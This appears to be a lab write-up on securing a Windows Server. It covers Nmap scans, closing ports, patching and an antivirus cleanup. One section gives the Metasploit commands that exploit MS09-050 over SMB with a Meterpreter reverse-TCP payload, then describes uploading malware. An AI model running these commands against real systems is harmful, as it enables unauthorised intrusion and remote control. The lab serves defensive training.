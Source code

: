 In this lab, I will be combining using red-teaming skills on a Windows
Server with hardening concepts to patch the vulnerability and strengthen
the security of the server

### Finding and Closing Unnecessary Ports

The network topology tells me that the server is on 192.168.1.10, so I
conduct an Nmap scan on the system with a Kali machine to see any ports
that are open. It shows MANY open ports

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image10.png){width="6.623565179352581in"
height="5.326643700787401in"}

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image11.png){width="5.503438320209974in"
height="2.345909886264217in"}

Now, acting as the Windows Server, I can close some of these ports and
other unnecessary services

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image3.png){width="7.401042213473316in"
height="4.96833552055993in"}

Additionally, I can delete and disable some unnecessary services that
had an exception rule applied to them on the firewall

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image6.png){width="5.501314523184602in"
height="4.086894138232721in"}

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image14.png){width="4.858310367454068in"
height="5.1999103237095365in"}

Finally, conducting another Nmap scan on the server shows that these
unneeded and vulnerable services are now closed, sealing up major
security risks to the system and network, **especially insecure services
such as telnet and ftp.**

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image12.png){width="7.817708880139983in"
height="4.535900043744532in"}

###  

### Exploiting

Even with some of the major vulnerable services closed up, it's still
possible to exploit this machine through the ports that SMB uses: 139
and 445

I will be exploiting the MS09-050 vulnerability that has not been
patched yet to gain access to the machine and upload malware.

\`use exploit/windows/smb/ms09_050_smb2_negotiate_func_index\`

\`set RHOST 192.168.1.10\`

\`set LHOST 192.168.1.101\`

\`set payload windows/meterpreter/reverse_tcp\`

\`exploit\`

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image8.png){width="8.473958880139982in"
height="3.837263779527559in"}

Now, I can use meterpreter commands that I've learned to navigate to the
Desktop directory of the administrator account and upload my malware as
well as a random text file I created

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image4.png){width="5.713542213473316in"
height="3.294743000874891in"}

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image2.png){width="4.588542213473316in"
height="4.7113702974628175in"}

### Patching the Vulnerability

On the Windows computer, I can install the appropriate updates on the
machine, then restart the machine, to fully patch the vulnerability.

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image7.png){width="7.515625546806649in"
height="4.473850612423447in"}

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image5.png){width="3.9843755468066493in"
height="3.7074945319335084in"}

While the machine was restarting, and when it finished rebooting, I
noticed that I was virtually kicked out of the meterpreter shell on the
linux machine as none of the normal commands were working

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image1.png){width="10.0in"
height="1.5277777777777777in"}

Then after a while, it alerted me that the session was ended

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image15.png){width="8.29687554680665in"
height="2.7915529308836398in"}

Attempting to run the exploit again results in unsuccessful attempts to
gain access to the machine, the vulnerability has been patched and the
exploit no longer works

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image9.png){width="7.890625546806649in"
height="2.8506332020997376in"}

### Cleaning up the Windows Machine

Even though I was able to patch the vulnerability, some damage had
already been done with the virus being uploaded from the attacker
machine. I can run an antivirus scan on the Windows Server, with
Microsoft Security Essentials, to scan for and remove any malware that
could have been uploaded.

![](output\e. Patching, Securing Systems, and Configuring Anti-Virus/media/image13.png){width="7.411458880139983in"
height="4.979573490813649in"}
